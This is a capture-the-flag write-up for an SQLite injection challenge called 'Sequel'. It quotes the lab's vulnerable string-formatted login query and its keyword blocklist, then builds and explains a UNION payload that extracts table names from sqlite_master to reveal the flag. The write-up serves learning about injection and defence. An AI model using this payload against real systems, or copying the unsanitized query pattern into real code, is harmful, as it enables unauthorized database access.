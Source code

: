 # Sequel

#### Author: Harsh Patil
#### Description: 

> Ever feared of injections? Me too.

# Writeup

- Taking an hint from the challenge name and description, we can guess that this challenge is related to SQL Injections.

- Lets perform some static code analysis. In the sqli_chal.py file, we can see:

```py
conn = sqlite3.connect("database.db", check_same_thread=False)
```

The above code snippet reveals that the database used in the backend is **SQLite**.

```py
def is_invalid_query(query: str) -> bool:
    if query.lower().count("insert") > 1:
        return True

    if "drop" in query.lower():
        return True

    if "delete" in query.lower():
        return True

    return False
```

Alright, this code snippet tells us that the kewords INSERT, DROP, and DELETE are out of the question.

```py
query = 'SELECT * FROM users WHERE username="{}" AND password="{}"'.format(username, password)
```

This above code snippet is the vulnerable line of code. We are passing the user inputs directly without performing any kind of input sanitation.

- Lets take a look at the database.db file provided to us.

```bash
> sqlite3 database.db 

SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
quarkCTF{fake_flag_for_testing}  users 
```

With this, we now know that the flag is present in the database as a table name and we need to create a query allowing us to retrieve table names.

- While searching about SQLite Injections, I came across [this very useful page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) created by [Swissky](https://github.com/swisskyrepo).

- Looking specifically at the `Extract table name` section of the above page, we see the following payload:

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

- Perfect, we now know how to retrieve all table names from an SQLite database. We just need to craft our payload to exploit this specific page.

- The final payload looks like this:

```sql
" UNION SELECT "1", group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ---
```

**Let me explain what's going on:**

- `"`: To end the `username="` making it `username=""` in the original query, allowing us to inject our payload.
    
- `UNION`: Used to join two queries, allowing us to perform an additional `SELECT` query retrieving the table names.

- `SELECT "1", group_concat(tbl_name)`: We added a `"1"` before `group_concat(tbl_name)` because we are performing an `UNION` with the `users` table which contains two columns. Therefore, we need two columns in this select statement as well.

- `FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ---`: Grabbed from the [amazing page made by Swissky](FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ---).

And that's it. On setting the username as our above malicious payload and the password as any random eight characters, we get our flag.

#### Flag

`quarkCTF{pr3v3nt_m3_by_pr3p4r3d_5t4t3m3nt5}`
